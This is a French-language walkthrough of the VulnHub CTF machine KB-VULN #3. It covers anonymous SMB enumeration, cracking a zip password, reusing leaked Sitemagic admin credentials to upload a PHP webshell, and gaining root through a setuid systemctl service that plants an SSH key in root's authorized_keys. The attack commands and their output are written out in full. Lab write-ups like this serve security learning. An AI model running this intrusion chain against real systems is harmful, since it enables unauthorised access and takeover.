 # Solution du CTF KB-VULN #3 de VulnHub

Kyoto Frift
-----------

Ça manque un peu d'originalité mais comme le précédent on va partir sur du Samba :  

```plain
Nmap scan report for 192.168.56.7
Host is up (0.00017s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cb:04:f0:36:3f:42:f7:3a:ce:2f:f5:4c:e0:ab:fe:17 (RSA)
|   256 61:06:df:25:d5:e1:e3:47:fe:13:94:fd:74:0c:85:00 (ECDSA)
|_  256 50:89:b6:b4:3a:0b:6e:63:12:10:40:e2:c4:f9:35:33 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:CA:64:3B (Oracle VirtualBox virtual NIC)
Service Info: Host: KB-SERVER; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2021-12-07T21:14:52
|_  start_date: N/A
|_nbstat: NetBIOS name: KB-SERVER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: kb-server
|   NetBIOS computer name: KB-SERVER\x00
|   Domain name: \x00
|   FQDN: kb-server
|_  System time: 2021-12-07T21:14:52+00:00
```

Hack-Me ? Oui oui !  

```bash
$ smbclient -U "" -N -L //192.168.56.7

        Sharename       Type      Comment
        ---------       ----      -------
        Files           Disk      HACK ME
        IPC$            IPC       IPC Service (Samba 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available

$  smbclient -U "" -N //192.168.56.7/Files
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Oct  2 20:11:49 2020
  ..                                  D        0  Fri Oct  2 19:12:00 2020
  website.zip                         N 38936127  Fri Oct  2 20:11:41 2020

                14380040 blocks of size 1024. 9540188 blocks available
```

Quand on tente de décompresser le zip ce dernier réclame un mot de passe. On a recours à l'utilitaire *zip2john* qui génère un hash aussi long qu'une *Chevrolet Bel Air*. Je vous fait grâce de cet output.  

Ça se casse bien :  

```plain
$ ./john --wordlist=rockyou.txt  hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
porchman         (website.zip)     
1g 0:00:00:02 DONE (2021-12-07 22:19) 0.3861g/s 1764Kp/s 1764Kc/s 1764KC/s porno:O..popchie91
```

L'archive semble être une backup de l'install du CMS [Sitemagic](https://sitemagic.org/). On trouve ainsi des identifiants dans le fichier *config.xml.php* :  

```php
<?php exit(); ?>                                                                                                       
<?xml version="1.0" encoding="ISO-8859-1"?>                                                                            
<entries>                                                                                                              
<!-- REQUIRED, throws custom exception if missing -->                                                                  
    <entry key="Username" value="admin"/>                                                                              
<!-- REQUIRED, throws custom exception if missing -->                                                                  
    <entry key="Password" value="jesse"/>
```

On a aussi un numéro de version dans *metadata.xml* :  

```html
<entry key="Release" value="4.4.2" />
```

Il existe un exploit d'upload pour cette version [sur exploit-db](https://www.exploit-db.com/exploits/48788). L'exploit nécessite une authentification préalable et ça tombe bien on a des identifiants.  

L'intuition m'amène sur *http://192.168.56.7/sitemagic/* et les identifiants passent.  

Pas besoin d'exploit pour cette vulnérabilité : on trouve facilement dans l'interface la fonctionnalité d'upload et elle ne dispose d'aucune restriction sur le type de fichier.  

Par défaut les fichiers sont placés dans le dossier *images* donc mon webshell se retrouve à *http://192.168.56.7/sitemagic/files/images/shell.php*.  

Dokyo Trift
-----------

Un utilisateur heisenberg est présent sur le système. Il possède notamment le premier flag (*6346c6d19751f1a3195f1e4b4b609544*) :  

```plain
drwxr-xr-x 4 heisenberg heisenberg 4096 Oct  2  2020 .
drwxr-xr-x 3 root       root       4096 Oct  2  2020 ..
-rw-r--r-- 1 heisenberg heisenberg  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 heisenberg heisenberg 3771 Apr  4  2018 .bashrc
drwx------ 2 heisenberg heisenberg 4096 Oct  2  2020 .cache
drwx------ 3 heisenberg heisenberg 4096 Oct  2  2020 .gnupg
-rw-r--r-- 1 heisenberg heisenberg  807 Apr  4  2018 .profile
-rw-r--r-- 1 heisenberg heisenberg    0 Oct  2  2020 .sudo_as_admin_successful
-rw-r--r-- 1 root       root         33 Oct  2  2020 user.txt
```

Cette fois pas d'environnement Docker. *LinPEAS* remonte la faille sudo que j'ai mentionné sur d'autres CTFs :  

```plain
[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

Mais le CTF est un peu ancien donc l'escalade de privilèges attendue n'est certainement pas liée à cet exploit.  

En revanche le programme */bin/systemctl* est setuid et setgid root. Il existe une entrée pour ce programme [sur GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) mais elle se base sur un fichier placé dans */tmp* alors que systemctl montre une certaine aversion avec ce dossier (voir par exemple [ici](https://ivanitlearning.wordpress.com/2020/10/14/hackthebox-jarvis/)).  

Je me suis mis sous la racine web où j'avais un accès en écriture et commencé par un petit test :  

```bash
www-data@kb-server:/var/www/html/sitemagic$ cat yolo.service 
[Unit]
Description=root

[Service]
Type=oneshot
ExecStart=/usr/bin/touch  /var/www/html/sitemagic/hi_there.txt

[Install]
WantedBy=multi-user.target

www-data@kb-server:/var/www/html/sitemagic$ systemctl link /var/www/html/sitemagic/yolo.service 
Created symlink /etc/systemd/system/yolo.service → /var/www/html/sitemagic/yolo.service.

www-data@kb-server:/var/www/html/sitemagic$ systemctl enable --now yolo.service
Created symlink /etc/systemd/system/multi-user.target.wants/yolo.service → /var/www/html/sitemagic/yolo.service.

www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service

www-data@kb-server:/var/www/html/sitemagic$ systemctl status yolo.service
● yolo.service - root
   Loaded: loaded (/var/www/html/sitemagic/yolo.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Wed 2021-12-08 08:14:54 UTC; 1min 23s ago
  Process: 8900 ExecStart=/usr/bin/touch /var/www/html/sitemagic/hi_there.txt (code=exited, status=0/SUCCESS)
 Main PID: 8900 (code=exited, status=0/SUCCESS)

Dec 08 08:14:54 kb-server systemd[1]: Starting root...
Dec 08 08:14:54 kb-server systemd[1]: Started root.

www-data@kb-server:/var/www/html/sitemagic$ ls -l hi_there.txt 
-rw-r--r-- 1 root root 0 Dec  8 09:14 hi_there.txt
```

J'obtiens bien mon fichier créé par *root* :)  

Je modifie le service pour que la commande copie ma clé publique SSH sur */root/.ssh/authorized\_keys* et je relance. Systemctl voit une modification et demande un rechargement :  

```bash
www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service
Warning: The unit file, source configuration file or drop-ins of yolo.service changed on disk. Run 'systemctl daemon-reload' to reload units.

www-data@kb-server:/var/www/html/sitemagic$ systemctl daemon-reload
www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service
www-data@kb-server:/var/www/html/sitemagic$ systemctl status yolo.service
● yolo.service - root
   Loaded: loaded (/var/www/html/sitemagic/yolo.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Wed 2021-12-08 08:22:05 UTC; 4s ago
  Process: 16351 ExecStart=/bin/cp /var/www/html/sitemagic/my_key.pub /root/.ssh/authorized_keys (code=exited, status=0/SUCCESS)
 Main PID: 16351 (code=exited, status=0/SUCCESS)

Dec 08 08:22:05 kb-server systemd[1]: Starting root...
Dec 08 08:22:05 kb-server systemd[1]: Started root.

root@kb-server:~# cat root.txt 

  ####   ####  #    #  ####  #####    ##   ##### #    # #        ##   ##### #  ####  #    #  ####     
 #    # #    # ##   # #    # #    #  #  #    #   #    # #       #  #    #   # #    # ##   # #        
 #      #    # # #  # #      #    # #    #   #   #    # #      #    #   #   # #    # # #  #  ####     
 #      #    # #  # # #  ### #####  ######   #   #    # #      ######   #   # #    # #  # #      #    
 #    # #    # #   ## #    # #   #  #    #   #   #    # #      #    #   #   # #    # #   ## #    #    
  ####   ####  #    #  ####  #    # #    #   #    ####  ###### #    #   #   #  ####  #    #  #### 

                                            kernelblog.org    

49360ba4cbe27a1b900df25b247315d7
```


*Published December 08 2021 at 12 10*